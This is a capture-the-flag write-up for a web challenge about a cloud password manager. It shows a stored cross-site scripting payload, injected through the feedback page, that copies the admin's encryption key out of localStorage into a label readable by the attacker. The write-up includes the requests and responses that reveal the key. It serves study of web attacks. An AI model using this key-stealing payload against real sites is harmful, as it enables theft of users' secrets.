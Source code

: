 # CBPM (web 300)

The participants were given an online cloud based password manager which had several options such as password change, feedback and etc. After spending some time on the task, we realized the workflow. The important consequences:
+ Login can be done by any username.
+ Admin user has a password labeled "flag"
+ In order to reveal the stored passwords, a correct password of the user is required (![](2.png)).
+ Encryption/Decryption KEY is generated by user’s password.
+ KEY is saved on browser as it’s written on the site “Your decrypted master encryption key (KEY) is available in your browser and its encrypted version is stored on the server”
+ The exact location of `KEY` is in `localStorage` in browser (![](3.png)).
+ In order to decrypt flag, admin’s `password` or `KEY` is required.
+ The “feedback page” is prone to Cross Site Scripting without any protection or filtering.

**Attack scenario**: sending malicious payload to the admin users through feedback option, forcing admin to reveal his key.
In term of exploitation, there was a problem indicated in question: By the way, admin protects its machine with a strong and restrictive firewall...
Firewall means that admin couldn’t send request to internet. So our solution was to force admin to make a new label name with his local KEY. The payload used:
```
<script>
var b = new XMLHttpRequest();
b.open("POST", "/put.php", true);
b.send('{"id":"eyJ0ZWFtaWQiOiIxNDgifS4xY0lFWFguWDN0TXBxcGNuZlZFcDJ2UmZmUVBFdU1LbWVr","prelabel":"","newlabel":"'+localStorage.KEY+'","encpass":"a","iv":"a"}');
</script>
```
Following URL held the labels of a user.
```
http://ctf.sharif.edu:8081/list.php?id=eyJ0ZWFtaWQiOiIxNDgifS4xY0laUDcuNEtIbFcwaGpoRGc5dTlJcVIwQjJjMzN2WW5R
```
Admin’s labels before sending malicious payload:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["flag"]}}
```
Afterwards:
```
{"meta":{"ok":true,"code":0,"messages":[]},"payload":{"labels":["bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=","flag"]}}
```
So the KEY was grabbed. In the console of browser:
```
localStorage.setItem('KEY', 'bGFDMGZYWnZORG9hc21vM0hvZHNkUjE2YjJGeU1yMUM=')
```
And the flag was revealed: ![](1.png)

https://twitter.com/yshahinzadeh
